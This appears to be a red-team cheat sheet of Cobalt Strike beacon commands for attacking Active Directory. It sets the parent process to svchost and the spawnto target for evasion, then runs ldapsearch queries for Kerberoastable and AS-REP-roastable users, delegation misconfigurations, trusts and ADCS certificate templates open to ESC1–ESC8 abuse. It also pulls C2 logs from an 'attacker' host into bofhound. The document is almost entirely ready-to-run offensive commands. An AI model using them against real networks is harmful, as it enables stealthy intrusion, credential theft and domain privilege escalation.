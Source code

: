 
Set PPID to svchost - med-integ
```powershell
ppid 6424 
spawnto x64 C:\Windows\System32\svchost.exe
```

```powershell
--dn DC=contoso,DC=enclave
```

Domain, users, groups, OUs, and GPOs.
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```

Trusts
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

ADCS + ESC1–ESC8
```powershell
ldapsearch (|(objectClass=pKIEnrollmentService)(objectClass=pKICertificateTemplate)(objectClass=msPKI-Enterprise-Oid)) *,ntsecuritydescriptor

ldapsearch (objectClass=pKICertificateTemplate) --attributes cn,msPKI-Enrollment-Flag,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag,msPKI-RA-Signature,msPKI-Application-Policies,msPKI-Subject-Name-Flag,ntSecurityDescriptor
```

Kerberoastable Users
```
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

AS-REP Roastable Users
```
ldapsearch "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes samAccountName,userAccountControl,objectsid,ntsecuritydescriptor
```

Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --

attributes samAccountName,msDS-AllowedToDelegateTo
```

Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Role-based Constrained Delegation
```powershell
ldapsearch "(&(objectClass=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes samAccountName,dnshostname,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor

ldapsearch "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" --attributes samAccountName,servicePrincipalName,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor
```
---

Bofhound
```powershell
scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .

bofhound -i logs/
```

Search single SID
```powershell
ldapsearch (objectSid=S-1-5-21-1330904164-3792538338-293942156-2103)

ldapsearch (objectSid=S-1-5-21-1076548718-1118529210-2193484809-2601) --dn DC=contoso,DC=enclave
```


---

Across trusts

Services
```powershell
ldapsearch "(servicePrincipalName=*)" --attributes samAccountName,servicePrincipalName,objectSid,distinguishedName,ntsecuritydescriptor --dn DC=contoso,DC=enclave --hostname contoso.enclave
```

Domain, users, groups, OUs, and GPOs.
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) --dn DC=contoso,DC=enclave --hostname contoso.enclave

ldapsearch (samAccountType=805306369) --attributes samAccountName --dn DC=contoso,DC=enclave --hostname contoso.enclave
```

Trusts
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName --dn DC=contoso,DC=enclave --hostname contoso.enclave
```

Kerberoastable Users
```powershell
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor --dn DC=contoso,DC=enclave --hostname contoso.enclave
```

AS-REP Roastable Users
```powershell 
ldapsearch "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes samAccountName,userAccountControl,objectsid,ntsecuritydescriptor --dn DC=contoso,DC=enclave --hostname contoso.enclave

```

Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo --dn DC=contoso,DC=enclave --hostname contoso.enclave

```

Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname --dn DC=contoso,DC=enclave --hostname contoso.enclave
```

Role-based Constrained Delegation
```powershell
ldapsearch "(&(objectClass=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes samAccountName,dnshostname,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor --dn DC=contoso,DC=enclave --hostname contoso.enclave

ldapsearch "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" --attributes samAccountName,servicePrincipalName,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor --dn DC=contoso,DC=enclave --hostname contoso.enclave
```

ADCS + ESC1–ESC8
```powershell
ldapsearch (|(objectClass=pKIEnrollmentService)(objectClass=pKICertificateTemplate)(objectClass=msPKI-Enterprise-Oid)) *,ntsecuritydescriptor --dn DC=contoso,DC=enclave --hostname contoso.enclave
 
ldapsearch (objectClass=pKICertificateTemplate) --attributes cn,msPKI-Enrollment-Flag,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag,msPKI-RA-Signature,msPKI-Application-Policies,msPKI-Subject-Name-Flag,ntSecurityDescriptor --dn DC=contoso,DC=enclave --hostname contoso.enclave
```